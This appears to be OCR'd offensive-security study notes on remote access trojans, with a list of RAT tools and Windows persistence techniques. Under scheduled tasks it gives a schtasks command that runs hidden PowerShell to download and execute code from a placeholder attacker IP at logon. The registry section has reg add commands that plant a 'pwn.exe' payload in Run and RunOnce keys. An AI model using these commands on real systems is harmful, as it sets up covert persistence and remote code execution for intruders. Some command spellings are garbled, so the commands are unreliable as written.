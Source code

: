 #### REMOTE ACCESS TROJAN AND BACKDOORS
- A Remote Access Trojan (RAT) is a malware program that includes a back door for administrative control over the target computer
- RATs are usually downloaded invisibly with a user-requested program -- such as a game -- or as an email attachment
- They are difficult to detect if designed to look like normal administrative remote access tools
- They allow the attacker to connect later at any time
- Victim has a "Listener" that opens a port for you to connect to
- Or, the victim can make a reverse connection to you the hacker
	- Good for getting past a firewall
	- The hacker must set up a listener

#### RAT AND BACKDOOR TOOLS
- VenomRAT
- Stitch
- Ghost
- Social_X
- NullRAT
- The Fat Rat
- RomCom RAT
- RATMilad
- CodeRAT
- Imminent Monitor RAT
- Konni RAT
- ZuoRAT
- 


#### SCHEDULED TASKS
- Windows Operating Systems provide a utility (schtasks.exe)
- This enables system administrators to execute a program or a script at a specific given date and time
- This kind of behavior has been heavily abused by threat actors and red teams as a persistence mechanism
- You don't need to be an administrator to schedule a task.
```
schtask /create /tn persist /tr
"c:\windows\syswow64\windowPowerShell\v1.0\powershell.exe -WindowStyle hidden -Nologo -NonInteractive -ep bypass -nop -c 
'IEX ( new-object net.webclient),downloadstring ( ''http://<attacker IP>:8080/ZPWLywg)'" /sc onlogon /ru SYSTEM
```

#### REGISTRY RUN KEYS EXAMPLE
- Add registry keys from a terminal, referencing the malicious payload
- The payload executes when the user logs on
- reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run"
- `/v wePwnU /t REG_SZ /d "C:\Users\tmp\pwn.exe"`
- reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce"
- `/v wePwnU /t REG_SZ /d "C:\Users\tmp\pwn.exe"`
- reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices"
- `/v wePwnU /t REG_SZ /d "C:\Users\tmp\pwn.exe"`
- reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce"
- `/v wePwnU /t REG_SZ /d "C:\Users\tmp\pwn.exe"`
- 
```
If you have an elevated credential, you prefer to use LOCAL_MACHINE
The payload will execute every time the system boots, regardless of whether a user logs on or not

reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run"
/v wePwnU /t REG_SZ /d "C:\tmp\pwn.exe"

reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce"
/v wePwnU /t REG_SZ /d "C:\tmp\pwn.exe"
```